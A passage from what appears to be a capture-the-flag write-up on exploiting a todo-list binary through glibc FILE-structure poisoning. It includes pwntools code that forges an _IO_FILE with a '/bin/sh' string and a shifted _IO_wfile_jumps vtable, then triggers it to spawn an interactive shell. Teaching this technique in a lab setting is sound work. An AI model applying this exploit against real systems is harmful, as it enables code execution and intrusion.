 
Now that the wide table is set up, we need to poison the x object and call `dump_todos`. But before we can do that, we need to prepare the payload for the system function.  

Luckily, `x->_wide_data.doallocate` takes x as its first parameter, so we can inject a /bin/sh string into `x->_IO_FILE.flags` and flush it.  

However, `x->_IO_FILE.flags` is an essential variable and is checked by many functions, so instead of modifying it directly, we’ll put our argument in `x->_IO_FILE._IO_read_ptr` while just filling `x->_IO_FILE.flags` with spaces.  

```
    filepay = FileStructure()
    filepay.flags = 0x2020202020202020
    filepay._IO_read_ptr = 0x68732f6e69622f
    filepay._lock = _lock
    filepay.chain = _chain
    filepay._wide_data = wide_table.address
    filepay.vtable = libc.sym["_IO_wfile_jumps"] - 0x48
    edit_todo(bytes(filepay), 1)
    log.info("calling the gadget now")
```

Now that everything is aligned, we can simply call dump_todos and profit.  
```py
    dump_todos()
    pp.sendline(b"exec 1>&2")
    pp.interactive()
```


